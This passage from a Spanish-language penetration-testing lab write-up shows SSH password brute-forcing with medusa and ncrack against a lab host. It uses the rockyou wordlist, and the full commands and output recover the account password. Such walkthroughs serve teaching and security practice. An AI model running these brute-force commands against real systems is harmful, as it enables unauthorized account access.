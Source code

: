 <br>

<h3 id="Medusa">Utilizando medusa Contra Servicio SSH</h3>

Esta herramienta es otra opción a considerar, pero es bastante lenta en comparación con **hydra, nmap y el módulo de Metasploit**:

Le agregué distintas flags para agilizar la fuerza bruta como **-n** (para que no aplique **resolución DNS**), **-t** (para incrementar los hilos a usar) y **-T** (para minimizar los retrasos):
```bash
medusa -u bananaman -P /usr/share/wordlists/rockyou.txt -h 192.168.1.20 -n -t 16 -T 10 -M ssh
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 192.168.1.20 (1 of 1, 0 complete) User: bananaman (1 of 1, 0 complete) Password: 123456 (1 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.1.20 (1 of 1, 0 complete) User: bananaman (1 of 1, 0 complete) Password: 12345 (2 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.1.20 (1 of 1, 0 complete) User: bananaman (1 of 1, 0 complete) Password: 123456789 (3 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.1.20 (1 of 1, 0 complete) User: bananaman (1 of 1, 0 complete) Password: password (4 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.1.20 (1 of 1, 0 complete) User: bananaman (1 of 1, 0 complete) Password: iloveyou (5 of 14344391 complete)
...
...
...
ACCOUNT CHECK: [ssh] Host: 192.168.1.20 (1 of 1, 0 complete) User: bananaman (1 of 1, 0 complete) Password: crystal (249 of 14344391 complete)
ACCOUNT CHECK: [ssh] Host: 192.168.1.20 (1 of 1, 0 complete) User: bananaman (1 of 1, 0 complete) Password: celtic (250 of 14344391 complete)
ACCOUNT FOUND: [ssh] Host: 192.168.1.20 User: bananaman Password: celtic [SUCCESS]
```
Tardó alrededor de 5 minutos, pero obtuvimos nuestro resultado esperado.

<br>

<h3 id="Ncrack">Utilizando ncrack Contra Servicio SSH</h3>

Esta herramienta fue creada por los mismos creadores de **nmap**. Se me hizo sencilla de usar y tiene casi los mismos comandos que **nmap**, además fue casi igual de rápida que **hydra**:
```bash
ncrack -p ssh --user bananaman -P /usr/share/wordlists/rockyou.txt -vv -T5 192.168.1.20:22

Starting Ncrack 0.7 ( http://ncrack.org ) at 2025-01-02 15:52 CST

Stats: 0:00:04 elapsed; 0 services completed (1 total)
Rate: 0.00; Found: 0; About 0.00% done
Discovered credentials on ssh://192.168.1.20:22 'bananaman' 'celtic'
Stats: 0:02:23 elapsed; 0 services completed (1 total)
Rate: 8.18; Found: 1; About 0.01% done
(press 'p' to list discovered credentials)
Discovered credentials for ssh on 192.168.1.20 22/tcp:
192.168.1.20 22/tcp ssh: 'bananaman' 'celtic'
(press 'p' to list discovered credentials)
caught SIGINT signal, cleaning up
Saved current session state at: /root/.ncrack/restore.2025-01-02_15-56
```
Muy bien, solamente debes usar `CTRL + C` para terminar la sesión de uso de la herramienta.
